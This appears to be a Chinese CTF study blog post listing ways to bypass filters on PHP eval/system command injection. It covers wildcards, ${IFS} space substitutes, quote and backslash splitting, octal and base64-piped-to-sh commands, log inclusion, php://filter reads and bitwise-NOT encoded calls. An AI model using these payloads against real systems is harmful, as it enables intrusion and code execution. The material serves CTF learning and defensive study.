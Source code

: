 ```yaml
---
title: RCE PHP远程命令执行绕过
date: 2024-05-15 21:53:24
permalink: /pages/96f5e6/
categories:
  - web
tags:
  - rce
  - php
author: 
  name: Cola
  link: https://the0n3.top
---
```



## 通配符

绕过文件名/扩展名的限制

```php
tac f*
cat f?ag.p?p
less f*
more f*
```

## php函数执行命令

system函数会将参数字符串作为系统命令执行

```shell
system("ls")
```

类似功能函数，eval，passthru，assert，exec，shell_exec，pre_match，create_function等等

参考

[PHP敏感函数](https://blog.csdn.net/FINYIE/article/details/128284692)


## 逃逸

```php
# 检测函数waf()
eval(waf($_GET[cmd]));
```

题目对传参的变量要求很严格但没有严格过滤时，可以尝试逃逸
```
# 命令逃逸  
?cmd=$_GET[a]($_GET[b]);&a=assert&b=phpinfo()  
日志包含  
?cmd=include$_GET[1];&1=/var/log/apache2/access.log  
# 伪协议读文件
?cmd=include$_GET[1];&1=php://filter/convert.base64-encode/resource=index.php
# 其他
```

## 反引号，echo执行代码  

```bash
echo `ls`
```

echo会将反引号中字符串作为命令执行，但是没有回显

```php
eval(`ls`);
```

**反引号搭配重定向“>”符号有奇效，把命令的结果打印到新的文件中**，详细看[写文件](http://the0n3.top//pages/a12979/)

## 拼接

在命令行定义变量，拼接食用

```bash
a=l;b=s;$a$b;
```

![3](https://the0n3.top/medias/ctfshow_web30_命令执行/3.png)

## 空格绕过

注意：其中的url编码只有在get传参时能使用

```url
%09     # tab的url编码
%0a     # 换行url编码
${IFS}  # bash中的分隔符，空格，tab，换行符
$IFS    # 同上
$IFS$9  # 同上
<       # 重定向
>      # 重定向
{命令,参数} # 例如，{ls,/} 
```

**以上，<，<>重定向不能和通配符？同时使用**  
**%09，%0Atab和换行的url编码，只有明确ban了才不能用，如果只是ban数字和字母，不妨碍继续使用**

## 转义绕过

在一些时候开发者(出题人)，可能只做了简单的关键词过滤或过滤逻辑不严格时，你或许可以通过转义字符绕过(这里转义字符一定不要有实际转义)

你可以在终端尝试，在加上反斜杠后不会转义的字符前加上反斜杠，例如，l，c没有实际意义的转义，所以转义后还是本身  
**Tip**：转义在终端类环境下可用，例如system("")函数，只有一层php的eval()函数不能直接执行linux命令，配合反引号可以执行，但不会有回显，可以再配合一次重定向写文件

payload：c=system("ta\c f\lag.php");

```php
$c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

当正则匹配字段/命令限制较多时，你可以多一个选择

[参考](linux/04tran-meaning.md)


## 单双引号

在linux环境下，在要执行的命令中加入''单引号 双引号""，并不会解析，命令会正常执行，这也可以作为绕过关键字限制的一种方法

```bash
p''w''d
l''s
pw""d
l""s
```

等等类似命令都可以正常执行


## 八进制

在linux环境下，把命令转化为八进制数，使用$'\八进制数'，命令会正确执行，注意：命令不能带有参数  例如ls -lah，tac /flag中-lah,/flag都算参数

更详细内容可以看**探姬**的[bashfuck](https://github.com/ProbiusOfficial/bashFuck)这个项目

ls命令的八进制数

```bash
$'\154\163'
```

## {命令,参数}

在linux下可以使用{ls,/}格式执行命令

```bash
{ls,/}
```

## bin目录下工具

在代码执行限制时，后期练习可能ban掉所有字母，如果数字，通配符？和斜杠/还能用，可以使用bin目录下带数字的工具，例如/bin/base64

```bash
/???/????64${IFS}????.???
```

## 编码，管道符

在命令行使用ls的base64编码执行

```bash
echo bHM=|base64 -d|sh
```

解析：  
- 1.通过输出流echo打印base64编码，传递给管道符的第二部分
- 2.base64进行解码，得到原始命令'ls'，传递给第三部分
- 3.sh在命令行中执行这个原始命令

![2](https://the0n3.top/medias/ctfshow_web30_命令执行/2.png)

在空格被ban时，可以使用${IFS}，$IFS，$IFS$9填充空格

```bash
echo$IFSbHM=|base64$IFS$9-d|sh
```

## 取反

```php
<?php
highlight_file(__FILE__);
$cmd = "phpinfo();";
echo urlencode((~$cmd));
# (~%8F%97%8F%96%91%99%90)();
eval($_GET[1]);
```

## 自增

参考：

[自增，取反，异或 实现RCE](https://blog.csdn.net/whale_waves/article/details/136365419)

## 异或

大佬写的写的非常好了，又新又好😍，直接放参考了

参考：

[无字母rce](https://blog.csdn.net/m0_64180167/article/details/134971320)

[无字母rce](https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)

你可以阅读同类型其他大佬内容文章：

[命令执行总结](https://blog.csdn.net/qq_45927819/article/details/109671655#PATH_107)